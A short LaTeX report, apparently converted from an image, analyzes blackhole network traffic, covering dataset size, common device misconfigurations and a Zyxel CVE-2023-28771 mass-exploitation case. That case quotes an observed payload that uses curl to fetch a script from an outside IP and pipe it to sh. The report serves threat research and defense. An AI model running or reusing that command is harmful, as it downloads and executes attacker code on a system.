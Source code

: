 \chapter{Blackhole Traffic Analysis}
The project uses a methodical approach to analyze misconfigured systems by routing unused network ranges to a specific IP address for full packet capture. This setup allows for the collection of data on network activities that may indicate misconfigurations or malicious behavior. The captured data is streamed unidirectionally to a D4 collector, enabling a detailed analysis of the traffic.

The dataset analyzed during the project spans from January 1, 2024, to October 17, 2024, and includes over 10,226 unique destination IP addresses. In total, 4.31 TB of data was collected. This data provides invaluable insights into the nature of misconfigured devices and the patterns of malicious activities observed within the blackhole networks.



\chapter{Observations}
Misconfigured devices are a recurring theme in the analysis. These misconfigurations often result from typographical errors or improper default routing setups. For instance, devices that send SYSLOG messages to unintended networks represent a common type of misconfiguration. Similarly, MikroTik routers are often observed connecting to external services, such as \texttt{cloud.mikrotik.com}, due to default configurations.

DNS misconfigurations are another significant finding. When a secondary DNS resolver is misconfigured, it frequently goes unnoticed, leading to unintended traffic redirection. These observations highlight the importance of proper configuration and monitoring practices to avoid exposing sensitive systems to potential threats.

\chapter{Example Cases}
\section{Mass Exploitation of Devices}
Mass exploitation campaigns are a critical concern in cybersecurity. Attackers often exploit known vulnerabilities as soon as they are disclosed. A notable example observed during the project was the exploitation of the Zyxel router vulnerability (CVE-2023-28771), which allowed attackers to bypass authentication. The exploitation involved malicious payloads, such as the following command executed on vulnerable systems:
\begin{verbatim}
bash -c "curl http://92.60.77.85/z -o-|sh";
\end{verbatim}
This case underscores the need for timely patching and proactive defense mechanisms to mitigate the risks associated with known vulnerabilities.

